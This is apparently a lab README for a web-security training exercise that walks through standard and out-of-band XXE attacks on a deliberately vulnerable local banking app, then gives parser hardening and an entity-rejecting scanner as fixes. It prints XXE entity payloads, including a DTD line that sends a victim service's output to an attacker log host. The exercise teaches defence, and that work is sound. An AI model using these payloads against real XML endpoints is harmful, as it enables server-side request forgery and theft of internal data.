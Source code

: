 # Exercise 5 - XML External Entities (XXE) 
Exercise to help you understand XEE exploits and their mitigations

## Setup and Start Applications

1. check out exercise5 
   * from command line: 'git checkout exercise5'
1. start the v-bank-app in debug mode
   * with maven command:'mvn clean spring-boot:run -f ./v-bank-app/pom.xml'
1. start the attacker-app in debug mode
   * with maven command:'mvn clean spring-boot:run -f ./attacker-app/pom.xml'
   
## Brief description of the exercise
The applications in this scenario are:
* the vbank application at http://vbank.127.0.0.1.xip.io:8080 
* the attacker application at http://attack.127.0.0.1.xip.io:9090/, this holds the (malicaiout) XML payloads and DTDs
  * For the standard XXE scenario:
    * The XML payload: http://attack.127.0.0.1.xip.io:9090/xml/xxe_standard.xml 
  * For the out-of-band XXE scenario
    * The XML payload: http://attack.127.0.0.1.xip.io:9090/xml/xxe_out-of-band.xml
    * And the DTD: http://attack.127.0.0.1.xip.io:9090/xml/evil.dtd
* The victim service at: http://service.127.0.0.1.xip.io:9090/victim
    * This service should normally not be availabe to the client calling the v-bank application. 
    With the help of the XXE exploit the attacker manages to call the service and:
      * Standard XXE: Place the victim's output in the processed document and put in the note of resulting transaction.
      * Out-of-band XXE: Send the victim's output to the logger service at http://attack.127.0.0.1.xip.io:9090/log (whose input can be viewed at http://attack.127.0.0.1.xip.io:9090/viewlog)
But first you have to find the XXE vulnerability in the v-bank-app.

## Look for XXE vulnerabilities

Hint: XXE vulnerabilities are to be found where XML parsing/processing takes place.

Present vulnerabilities: _BankController.uploadTransactions(...)_ where the processing of the uploaded XML from the home page takes place.

## Exploit to understand

For the exploit we will use the XML files downloadable from http://attack.127.0.0.1.xip.io:9090/xxe 
Please download the beolow files to a folder on your local drive:
* transactions.xml: Normal payload
* xxe_call_service.xml: XEE payload calling a service
* xxe_call_service_out-of-band.xml: XXE payload calling a service and returning results out of band

1. Test
   * Login as bob (bob / h3ll0bob) and upload transactions.xml. 
   * You should see 2 transactions in the transaction history page.

1. Standard XXE
   * Logged in as bob, please upload xxe_standard.xml
   * 1 new transaction should appear in the history screen: 
     * In the note file of the newly uploaded transaction you should see "...(you fall victim to a standard XXE attack!)"
   * What was happening?
     * ```<!ENTITY victim SYSTEM 'http://service.127.0.0.1.xip.io:9090/victim'>``` entry created a victim entity with the outout of the _victim_ _service_ as its value
     * then due to ```<note>&victim;</note>``` the XML parser places it into the the note field before constructing the Transaction objects.
    
1. Out-of-Band XXE    
   * Logged in as bob, please upload xxe_standard.xml
   * 1 new transaction should appear in the history screen: 
     * In the note file of the newly uploaded transaction you should see "...(you fall victim to a Out-of-Band XXE attack!)"
   * What was happening?
     * ```<!ENTITY victim SYSTEM 'http://service.127.0.0.1.xip.io:9090/victim'>``` entry created a victim entity with the outout of the _victim_ _service_ as its value
     * Then in the_evil.dtd used the %victim; parameter entity (parameter entities are denoted by % and can be reused within the DTD) to create another %send; entity which when evaluated will send the value of %victim; to the log service at http://attack.127.0.0.1.xip.io:9090/log 
     ```<?xml version="1.0" encoding="UTF-8"?>
            <!ENTITY % all "<!ENTITY send SYSTEM 'http://attack.127.0.0.1.xip.io:9090/log?msg=%victim;'>">
            %all;
     ```
     * Because the output of the attacked service (normally confidential information) is send to the log service and is not received with the response it is called Out-of-Band XXE. 
       (It is also called Blind XXE) 
       
 1. Tasks 
    * (1) Configure the XML parser to omit external DTD resources  
    * (2) Add a lexical parser to preprocess the XML and fail if any entities are found
    * Hints:
      * (1) in _BankController.uploadTransactions(...)_:
       ```
       unmarshaller.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, "false");
       ```
      * (2) create a new class: 
       ```
       public class AntiEntityScanner {
       
           private static final String LEXICAL_HANDLER = "http://xml.org/sax/properties/lexical-handler";
       
           public static void check(final InputStream data) throws Exception {
               final SAXParser saxParser = SAXParserFactory.newInstance().newSAXParser();
               final ElementHandler handler = new ElementHandler();
               saxParser.getXMLReader().setProperty(LEXICAL_HANDLER, handler);
               saxParser.parse(data, handler);
           }
       
           public static final class ElementHandler extends org.xml.sax.ext.DefaultHandler2 {
               @Override
               public void startEntity(final String name) throws SAXException {
                   throw new IllegalArgumentException("Entities are illegal");
               }
           }
       }
       ```
     * (2) and in _BankController.uploadTransactions(...)_:
       ```
       InputStream incomingXML = file.getInputStream();
       //scan for entities in incoming XML without parsing the content
       AntiEntityScanner.check(incomingXML);
       ```
The solution is avaliable in the exercise5-solution branch at https://github.com/vargadan/v-bank/tree/exercise5-solution
You may find more on XXE mitifations at https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.md
    
